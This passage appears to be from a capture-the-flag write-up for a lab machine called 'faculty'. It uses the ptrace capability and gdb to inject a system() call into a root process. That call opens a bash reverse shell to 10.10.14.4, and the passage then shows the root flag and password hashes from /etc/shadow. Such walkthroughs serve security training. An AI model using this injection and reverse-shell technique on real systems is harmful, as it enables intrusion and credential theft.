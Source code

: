 With found cabability, ``ptrace``, the current user can attach to other processes and trace their system calls.
Testing to attach to a bunch of different services I get this error when trying to call `system` function:
```bash
(gdb) call (void)system("id")
No symbol "system" in current context.
```

However, I find one process that do work and we're able to get a reverse shell as `root`!
```bash
developer@faculty:/dev/shm$ ps aux | grep root
[... snip ...]
root         733  0.0  0.9  26896 18172 ?        Ss   08:00   0:00 /usr/bin/python3 /usr/bin/networkd-dispatcher --run-startup-triggers

developer@faculty:/dev/shm$ gdb -p 733
[... snip ...]
(gdb) call (void)system("bash -c 'bash -i >& /dev/tcp/10.10.14.4/4488 0>&1'")
[Detaching after vfork from child process 49752]

➜  faculty nc -lvnp 4488
listening on [any] 4488 ...
connect to [10.10.14.4] from (UNKNOWN) [10.10.11.169] 57988
bash: cannot set terminal process group (733): Inappropriate ioctl for device
bash: no job control in this shell
root@faculty:/# id && cat /root/root.txt
uid=0(root) gid=0(root) groups=0(root)
b8a6c75d466c5979b9886556151f2866

cat /etc/shadow
root:$6$CiEa.wxtUKxG5q21$ED3MTE6ehz0j0q4kRQfK4bnLQFLZDrG9skIPsc0p2/X3JSBHFWjRWAZwEdUpqON6UqZOXvme7.1wHzNCVHqk9/:18559:0:99999:7:::
gbyolo:$6$ccGHy1FmLiRRtdRO$8YUhXxCWlUNP7/VSch6vqb3aEMs4j/ncGyPCObyl9rS8C/ZDiC4.NOXAb0B1cuMir0ilQK.IDWFjDEryXV5fx1:19165:0:99999:7:::
developer:$6$oY/UDfRNf0UfWpGG$PUFSZoqX4AM1igh7RFTCLRnbs4Qi19jdqOMeZWBIwnkVS//6iyRbNaY/ZFcNoCFDMfdgAlnA4C7EiPRV9Ayvc.:18559:0:99999:7:::
```
